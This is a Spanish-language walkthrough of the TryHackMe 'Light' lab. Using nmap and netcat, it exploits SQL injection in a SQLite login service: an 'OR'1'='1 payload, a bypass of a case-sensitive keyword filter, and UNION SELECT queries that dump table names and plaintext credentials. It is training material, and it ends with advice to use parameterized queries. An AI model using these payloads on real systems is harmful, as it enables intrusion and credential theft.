# TryHackMe — Light 🔦

Writeup / walkthrough de la máquina **Light** de TryHackMe. El desafío consiste en explotar una **inyección SQL** a través de una aplicación de base de datos expuesta mediante `netcat`, con el objetivo de extraer credenciales y la flag del laboratorio.

---

## 🧰 Herramientas utilizadas

- `nmap` — escaneo de puertos y detección de versiones
- `netcat (nc)` — conexión al servicio vulnerable
- Inyección SQL manual (UNION-based)

---

## 1. Reconocimiento

### Escaneo inicial de puertos abiertos

```bash
nmap -p- -Pn -T4 <10.66.183.195>
```

### Escaneo de versiones sobre los puertos encontrados

```bash
nmap -sCV -p 22,1337 <10.66.183.195>
```

El escaneo reveló dos puertos abiertos: **22 (SSH)** y **1337**, este último correspondiente a una aplicación personalizada.

---

## 2. Enumeración del servicio

La máquina indica que hay una aplicación de base de datos llamada **Light** corriendo en el puerto 1337, accesible vía `netcat`, y sugiere el usuario `smokey` para iniciar sesión:

```bash
nc <10.66.183.195> 1337
```



Al conectarnos con el usuario `smokey`, la aplicación devuelve una contraseña en texto plano.

---

## 3. Intento de acceso por SSH

Dado que el puerto 22 estaba abierto, se probó reutilizar la contraseña obtenida para autenticarse por SSH con el usuario `smokey`. Las credenciales **no funcionaron**.



---

## 4. Descubrimiento de la inyección SQL

Se probó introducir una comilla simple (`'`) en el campo de usuario para comprobar si la entrada se procesaba directamente en una consulta SQL:



La aplicación devolvió un error, lo que confirma que el input **no está siendo saneado** y se concatena directamente en la consulta.

### Payload de autenticación clásico

```
smokey 'OR'1'='1
```



Aunque la inyección altera el comportamiento de la consulta, la contraseña resultante tampoco permitió el acceso por SSH.



---

## 5. Explotación — Consultas UNION

Se intentó una inyección basada en `UNION` para combinar los resultados de múltiples `SELECT` en una sola respuesta:

> **UNION**: cláusula SQL que combina el resultado de dos o más sentencias `SELECT`, devolviendo únicamente valores únicos por defecto.

La aplicación respondió con un mensaje de filtrado de palabras:

```
"ahh there is a Word in there I don't like :("
```



### Bypass del filtro por capitalización

Se reescribió la consulta variando la capitalización de las palabras clave, confirmando que el filtro es **case-sensitive**:

```
smokey 'Union'
```



```
smokey 'Select'
```



Al variar únicamente una letra en mayúscula, la aplicación devolvió una respuesta vacía en lugar de un error, indicando que la consulta se ejecutó correctamente pero sin resultados visibles:



---

## 6. Enumeración de la base de datos (SQLite)

### Listar tablas existentes

```sql
smokey 'Union Select name from sqlite_master'
```



### Obtener el esquema de la tabla

```sql
smokey 'Union select sql from sqlite_master'
```



Se identifican las columnas: **`id`**, **`username`**, **`password`**.

### Intento de extracción total (fallido)

```sql
smokey 'Union Select * from admintable'
```



### Conteo de registros

```sql
smokey 'Union Select count(id) from admintable'
```



Resultado: **2 registros**, es decir, dos usuarios en la tabla.

---

## 7. Extracción de credenciales

### Primer usuario

```sql
smokey 'Union Select username from admintable'
```



➡️ Usuario obtenido: **`TryHackMeAdmin`**

### Segundo usuario

```sql
smokey 'Union Select username from admintable where username != TryHackMeAdmin'
```



➡️ Usuario obtenido: **`flag`**

### Contraseña del usuario `flag`

```sql
smokey 'Union Select password from admintable where username != TryHackMeAdmin'
```



✅ Con este valor se obtiene la **flag** del laboratorio.

### Contraseña de `TryHackMeAdmin`

```sql
smokey 'Union Select password from admintable where username = TryHackMeAdmin'
```



Con esto se responde también la segunda pregunta del laboratorio.

---

## 📌 Conclusiones

- La aplicación era vulnerable a **inyección SQL sobre SQLite** a través de un input aparentemente inofensivo (nombre de usuario).
- Existía un **filtro de palabras clave case-sensitive**, fácilmente evadible alternando mayúsculas/minúsculas.
- Mediante consultas `UNION SELECT` fue posible enumerar el esquema de la base de datos (`sqlite_master`), contar registros y extraer credenciales en texto plano.
- **Lección de seguridad:** nunca confiar en la sanitización basada en listas negras de palabras (blacklist filtering); usar *prepared statements* / consultas parametrizadas para prevenir SQLi.

---

## 🏷️ Categoría

`Web Exploitation` · `SQL Injection` · `SQLite` · `TryHackMe`

